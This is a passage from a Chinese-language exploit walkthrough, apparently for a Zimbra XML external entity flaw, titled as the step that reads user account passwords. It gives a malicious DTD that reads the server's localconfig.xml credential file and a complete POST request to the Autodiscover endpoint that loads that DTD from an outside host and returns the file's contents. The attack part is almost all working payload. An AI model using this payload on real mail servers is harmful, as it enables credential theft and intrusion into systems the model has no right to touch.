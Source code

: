![1.png](../img/2c694de18e5148be2bb64cf68236ac91.png)

### 第二步：读取zimbra用户账号密码

> dtd文件内容如下：

```
<!ENTITY % file SYSTEM "file:../conf/localconfig.xml">  
<!ENTITY % start "<![CDATA["> 
<!ENTITY % end "]]>">  
<!ENTITY % all "<!ENTITY fileContents '%start;%file;%end;'>"> 
```

> POST请求包如下：

```
POST /Autodiscover/Autodiscover.xml HTTP/1.1  
Host: www.0-sec.org  
User-Agent: Mozilla/5.0 (Windows NT 10.0;) Gecko/20100101 Firefox/66.0  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.2  
Accept-Encoding: gzip, deflate  
Referer: https://mail.****.com/zimbra/  
Content-Type: application/soap+xml  
Content-Length: 436  
Connection: close  
Cookie: ZM_TEST=true  
Upgrade-Insecure-Requests: 1 `<!DOCTYPE Autodiscover [

<!ENTITY % dtd SYSTEM “[http://www.0-sec.org/dtd](http://www.0-sec.org/dtd)”>

%dtd;

%all;

]>

<Autodiscover xmlns=“[http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a](http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a)”>

<Request>

<EMailAddress>aaaaa</EMailAddress>

<AcceptableResponseSchema>&fileContents;</AcceptableResponseSchema>
```